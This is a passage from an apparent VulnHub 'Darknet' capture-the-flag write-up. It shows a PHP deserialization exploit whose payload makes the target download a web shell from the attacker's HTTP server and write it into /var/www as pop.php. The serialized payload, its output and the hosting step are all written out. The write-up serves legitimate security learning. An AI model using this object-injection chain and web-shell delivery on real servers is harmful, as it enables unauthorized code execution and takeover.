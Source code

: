 ```
    public $url;
    public $name_file;
    public $path;

    function __destruct(){
        # Commented out as this will run when this script
        # also finishes :D

        #$data=file_get_contents($this->url);
        #$f=fopen($this->path."/".$this->name_file, "w");
        #fwrite($f, $data);
        #fclose($f);
        #chmod($this->path."/".$this->name_file, 0644);
}
}


$test = new Test();
$test->url = 'http://192.168.252.1:8000/shell.txt';
$test->name_file = 'pop.php';
$test->path = '/var/www';

print_r(serialize([$test, new Show()]));
```

Running this would then print out the serialized versions of the two classes in question.

```
root@kali:~/data/VulnHub/Darknet# php poi.php
a:2:{i:0;O:4:"Test":3:{s:3:"url";s:35:"http://192.168.252.1:8000/shell.txt";s:9:"name_file";s:7:"pop.php";s:4:"path";s:8:"/var/www";}i:1;O:4:"Show":1:{s:4:"woot";N;}}
```

The only thing that is left to do is host the `shell.txt` file at the location specified in the `$url` property and run the little python helper with the new serialized string. I started up a HTTP server with `python -m SimpleHTTPServer` and wrote my web shell to `shell.txt`. The python helper was changed so that `OBJECT` had the new serialized string.

```
OBJECT = """a:2:{i:0;O:4:"Test":3:{s:3:"url";s:35:"http://192.168.252.1:8000/shell.txt";s:9:"name_file";s:7:"pop.php";s:4:"path";s:8:"/var/www";}i:1;O:4:"Show":1:{s:4:"woot";N;}}"""
```

I ran the helper and saw that the `shell.txt` was downloaded from my web server. I could now browse to http://192.168.252.140/pop.php :D

## flag
Using the shell uploaded, I was finally able to cat the flag!

{{< figure src="/images/darknet_flag.png" >}}

## final thoughts
I went back to a few of the source files to get an idea for whats going on once the box was rooted. The first being the weirdness when I tried to brute force the first elements of the node in the XPath injection. Turns out, a `preg_match()` was applied to filter out a few inputs.
